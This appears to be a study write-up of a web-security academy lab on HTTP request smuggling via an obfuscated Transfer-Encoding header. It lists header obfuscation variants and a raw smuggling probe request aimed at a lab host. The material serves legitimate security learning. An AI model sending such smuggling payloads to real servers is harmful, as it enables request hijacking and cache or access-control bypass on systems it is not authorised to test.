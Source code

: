 ## TE.TE behavior: obfuscating the TE header

Here, the front-end and back-end servers both support the Transfer-Encoding header, but one of the servers can be induced not to process it by obfuscating the header in some way.

There are potentially endless ways to obfuscate the Transfer-Encoding header. For example:
```
Transfer-Encoding: xchunked
```
```
Transfer-Encoding : chunked
```
```
Transfer-Encoding: chunked
Transfer-Encoding: x
```
```
Transfer-Encoding:  chunked
```
```
 Transfer-Encoding: chunked
```
```
X: X
Transfer-Encoding: chunked
```
```
Transfer-Encoding
: chunked
```
Each of these techniques involves a subtle departure from the HTTP specification. Real-world code that implements a protocol specification rarely adheres to it with absolute precision, and it is common for different implementations to tolerate different variations from the specification. To uncover a TE.TE vulnerability, it is necessary to find some variation of the Transfer-Encoding header such that only one of the front-end or back-end servers processes it, while the other server ignores it.

Depending on whether it is the front-end or the back-end server that can be induced not to process the obfuscated Transfer-Encoding header, the remainder of the attack will take the same form as for the CL.TE or TE.CL vulnerabilities already described. 

### Lab: HTTP request smuggling, obfuscating the TE header

This lab involves a front-end and back-end server, and the two servers handle duplicate HTTP request headers in different ways. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST. 

We need a way to trigger time out error:
```
POST / HTTP/1.1
Host: 0a2f00b104a1a7da844da6d300390070.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Transfer-Encoding: x
Content-Length: 6

0

x
```
=> **TE.CL**
